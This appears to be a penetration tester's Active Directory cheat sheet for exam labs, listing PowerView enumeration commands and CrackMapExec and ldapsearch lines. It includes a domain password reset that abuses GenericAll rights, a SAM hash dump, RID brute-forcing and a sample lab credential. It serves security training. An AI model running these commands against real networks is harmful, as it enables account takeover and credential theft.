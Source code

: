 [Cheatsheet](https://zflemingg1.gitbook.io/undergrad-tutorials/powerview/powerview-cheatsheet) **Test for SID you control with *genericall* on another user/group**

(Great Guide https://cybergladius.com/htb-walkthrough-support/)

- `Get-ObjectAcl -Identity "<UsernameOrGRoup>" | ? {$_.ActiveDirectoryRights -eq "GenericAll"} | select SecurityIdentifier,ActiveDirectoryRights`
- `"S-1-5-21-890171859-3433809279-3366196753-1107", "S-1-5-21-890171859-3433809279-3366196753-1108", "S-1-5-32-562" | ConvertFrom-SID`
    - `net user username newpassword /domain`

**Kerberoastable Users**

- `Get-NetUser -Domain msp.local | Where-Object {$_.servicePrincipalName} | select name, samaccountname, serviceprincipalname`

**Computers in the domain**

- `Get-NetComputer -Properties samaccountname, samaccounttype, operatingsystem`

**List groups**

- `Get-NetGroup -Domain internal.msp.local | select name`

**Members of a group**

- `Get-DomainGroupMember "Domain Admins" -Recurse`

**Current User Info**

Searches environment for other machines user has access to log into

- `Find-LocalAdminAccess`

Find shares on Network

- `Find-DomainShare`

### On Kali

### SMB

### Creds:

- `cme smb 192.168.215.104 -u 'user' -p 'PASS' -d 'oscp.exam' --users`
- `crackmapexec smb <IP> -u 'user' -p 'PASS' --rid-brute`
- `crackmapexec smb <IP> -u 'user' -p 'PASS' -d 'oscp.exam' --groups`
- `crackmapexec smb <IP> -u 'user' -p 'PASS' --local-users`
- `crackmapexec smb <IP> -u 'Administrator' -p 'PASS' --local-auth --sam`

### LDAP

### Creds:

`ldapsearch -x -H ldap://<IP> -D 'medtech\wario' -w 'Mushroom!' -b 'DC=MEDTECH,DC=COM'`

### RPC
